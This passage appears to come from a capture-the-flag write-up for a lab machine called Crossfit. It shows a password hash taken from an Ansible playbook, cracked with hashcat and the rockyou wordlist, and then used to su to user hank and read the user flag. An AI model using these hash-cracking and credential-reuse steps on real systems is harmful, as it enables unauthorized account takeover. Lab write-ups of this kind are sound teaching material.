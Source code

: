 ```

www-data@crossfit:/etc/ansible/playbooks$ ls
adduser_hank.yml
www-data@crossfit:/etc/ansible/playbooks$ cat adduser_hank.yml 
---
- name: Add new user to all systems
  connection: network_cli
  gather_facts: false
  hosts: all
  tasks:
    - name: Add the user 'hank' with default password and make it a member of the 'admins' group
      user:
        name: hank
        shell: /bin/bash
        password: $6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/
        groups: admins
        append: yes

```

This playbook creates a user, and there’s a password hash.

### Cracking Hash

`hashcat` will break this hash with `rockyou` pretty quickly:

```

root@kali# hashcat -m 1800 hank.hash /usr/share/wordlists/rockyou.txt 
...[snip]...
$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/:powerpuffgirls

```

### su

That password works to `su` as hank on Crossfit:

```

www-data@crossfit:/etc/ansible/playbooks$ su hank - 
Password: 
hank@crossfit:/etc/ansible/playbooks$

```

And I can read `user.txt`:

```

hank@crossfit:~$ cat user.txt
be673d70************************

```
